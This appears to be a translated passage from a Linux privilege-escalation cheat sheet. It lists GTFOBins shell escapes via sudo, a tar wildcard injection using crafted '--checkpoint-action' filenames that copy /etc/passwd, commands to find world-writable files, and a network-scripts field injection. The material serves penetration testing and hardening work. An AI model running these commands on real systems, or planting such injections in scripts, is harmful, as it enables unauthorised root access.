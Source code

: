 ## GTFOBins

[GTFOBins](https://gtfobins.github.io)是一个精心策划的Unix二进制文件列表，攻击者可以利用这些二进制文件绕过本地安全限制。

该项目收集了Unix二进制文件的合法功能，这些功能可以被滥用以突破受限壳层，提升或维持提升的权限，传输文件，生成绑定和反向壳层，以及促进其他后渗透任务。

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## 通配符

通过使用带有–checkpoint-action选项的tar，可以在检查点后使用指定的操作。这个操作可以是一个恶意脚本，用于在启动tar的用户下执行任意命令。“诱骗”root使用特定选项相当容易，这就是通配符派上用场的地方。

```powershell
# 创建用于利用的文件
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash
cat /etc/passwd > /tmp/flag
chmod 777 /tmp/flag" > shell.sh

# 易受攻击的脚本
tar cf archive.tar *
```

工具：[wildpwn](https://github.com/localh0t/wildpwn)

## 可写文件

列出系统上世界可写的文件。

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### 可写的/etc/sysconfig/network-scripts/ (Centos/Redhat)

例如/etc/sysconfig/network-scripts/ifcfg-1337

```powershell
NAME=Network /bin/id  &lt;= 注意空格
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
